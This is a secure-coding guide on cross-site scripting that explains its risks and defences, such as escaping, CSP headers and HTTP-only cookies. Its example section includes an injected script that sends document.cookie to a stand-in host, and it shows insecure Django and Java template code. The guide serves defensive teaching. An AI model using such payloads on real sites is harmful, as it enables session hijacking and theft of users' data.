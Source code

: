 # Cross-Site Scripting (XSS)
***Cross-site scripting (XSS)*** is one of the most common methods hackers use to attack websites. XSS vulnerabilities permit a malicious user to execute arbitrary chunks of JavaScript when other users visit your site.

## Example
On a forum page where users are permitted to type and post text -

User input:
```html
<script> alert('Your session has been hacked!') </script>
```
*This will display an alert popup on any user's screen that views the message.*

Next input:
```html
<script>window.location = 'haxxed.com?cookie=' + document.cookie</script>
```
*This hijacks the user's session and moves them to a new page listed in the `window` parameter.*

## Risks
XSS allows arbitrary execution of JavaScript code, so the damage that can be done by an attacker depends on the sensitivity of the data being handled by your site. Some of the things hackers have done by exploiting XSS:

- *Spreading worms* on social media sites. Facebook, Twitter and YouTube have all been successfully attacked in this way.
- *Session hijacking*. Malicious JavaScript may be able to send the session ID to a remote site under the hacker’s control, allowing the hacker to impersonate that user by hijacking a session in progress.
- *Identity theft*. If the user enters confidential information such as credit card numbers into a compromised website, these details can be stolen using malicious JavaScript.
- *Denial of service attacks* and website vandalism.
- *Theft of sensitive data*, like passwords.
- *Financial fraud* on banking sites.

## Protection
Web pages are made up of HTML, usually described in template files, with dynamic content woven in when the page is rendered. Stored XSS attacks make use of the improper treatment of dynamic content coming from a backend data store. The attacker abuses an editable field by inserting some JavaScript code, which is evaluated in the browser when another user visits that page.

Unless your site is a content-management system, it is rare that you want your users to author raw HTML. Instead, you should escape all dynamic content coming from a data store, so the browser knows it is to be treated as the contents of HTML tags, as opposed to raw HTML.

Escaping dynamic content generally consists of replacing significant characters with the HTML entity encoding:

| Character | Encoding |
|-----------|----------|
| " | &#34 |
| # | &#35 |
| & | &#38 |
| ' | &#39 |
| ( | &#40 |
| ) | &#41 |
| / | &#47 |
| ; | &#59 |
| < | &#60 |
| > | &#62 |

## Whitelist Values
If a particular dynamic data item can only take a handful of valid values, the best practice is to restrict the values in the data store, and have your rendering logic only permit known good values. For instance, instead of asking a user to type in their country of residence, have them select from a drop-down list.

## Content-Security Policy
Modern browsers support Content-Security Policies that allow the author of a web-page to control where JavaScript (and other resources) can be loaded and executed from. XSS attacks rely on the attacker being able to run malicious scripts on a user’s web page - either by injecting inline `<script>` tags somewhere within the `<html>` tag of a page, or by tricking the browser into loading the JavaScript from a malicious third-party domain.

By setting a content security policy in the response header, you can tell the browser to never execute inline JavaScript, and to lock down which domains can host JavaScript for a page:
```html
Content-Security-Policy: script-src 'self' https://apis.google.com
```
*By whitelisting the URIs from which scripts can be loaded, you are implicitly stating that inline JavaScript is not allowed.*

The content security policy can also be set in a <meta> tag in the <head> element of the page:
```html
<meta http-equiv="Content-Security-Policy" content="script-src 'self' https://apis.google.com">
```

*This approach will protect your users very effectively!* However, it may take a considerable amount of discipline to make your site ready for such a header. Inline scripts tags are considered bad practice in modern web-development - mixing content and code makes web-applications difficult to maintain - but are common in older, legacy sites.

To migrate away from inline scripts incrementally, consider makings use of CSP Violation Reports. By adding a report-uri directive in your policy header, the browser will notify you of any policy violations, rather than preventing inline JavaScript from executing:
```html
Content-Security-Policy-Report-Only: script-src 'self'; report-uri http://example.com/csr-reports
```
*This will give you reassurance that there are no lingering inline scripts, before you ban them outright.*

## Sanitize HTML
Some sites have a legitimate need to store and render raw HTML, especially now that `contentEditable` has become part of the HTML5 standard. If your site stores and renders rich content, you need to use a HTML sanitization library to ensure malicious users cannot inject scripts in their HTML submissions.

## Code Samples
The code samples below illustrate good and bad practices when trying to protect against Cross-Site Scripting.

#### Python | Django
Insecure (`| safe` overrides HTML escape):
```python
**{{ contents | safe }}**
```
Secure:
```python
**{{ contents }}**
```

#### Java
Insecure (does not escape HTML):
```java
<%= contents %>

$${contents}

<%
   out.println(contents);
%>

```
Secure (`c:out` safely escapes HTML):
```java
<c:out value="$${contents}">
```

## HTTP-Only Cookies
A session-hijacking attack can use malicious JavaScript to steal the cookie containing the user’s session ID. There is rarely a good reason to read or manipulate cookies in client-side JavaScript, so consider marking cookies as HTTP-only, meaning that cookies will be received, stored, and sent by the browser, but cannot be modified or read by JavaScript.